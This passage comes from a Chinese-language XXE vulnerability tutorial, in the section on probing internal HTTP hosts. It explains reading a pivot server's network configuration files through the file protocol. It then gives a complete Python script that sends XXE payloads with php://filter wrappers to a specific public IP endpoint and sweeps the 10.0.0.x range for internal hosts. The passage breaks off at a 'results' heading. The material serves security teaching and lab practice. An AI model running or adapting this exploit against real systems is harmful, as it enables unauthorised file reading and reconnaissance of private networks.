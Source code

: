 **注意：**

1.其中从2012年9月开始，Oracle JDK版本中删除了对gopher方案的支持，后来又支持的版本是 Oracle JDK 1.7
update 7 和 Oracle JDK 1.6 update 35
2.libxml 是 PHP 的 xml 支持

### **实验三：HTTP 内网主机探测**

我们以存在 XXE 漏洞的服务器为我们探测内网的支点。要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子（我以linux 为例），我们可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

**下面是一个探测脚本的实例：**

```python
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)

def send_xml(xml):
    headers = {'Content-Type': 'application/xml'}
    x = requests.post('http://34.200.157.128/CUSTOM/NEW_XEE.php', data=xml, headers=headers, timeout=5).text
    coded_string = x.split(' ')[-2] # a little split to get only the base64 encoded value
    print coded_string
    #    print base64.b64decode(coded_string)
for i in range(1, 255):
    try:
        i = str(i)
        ip = '10.0.0.' + i
        string = 'php://filter/convert.base64-encode/resource=http://' + ip + '/'
        print string
        build_xml(string)
    except:
        continue
```

**返回结果：**

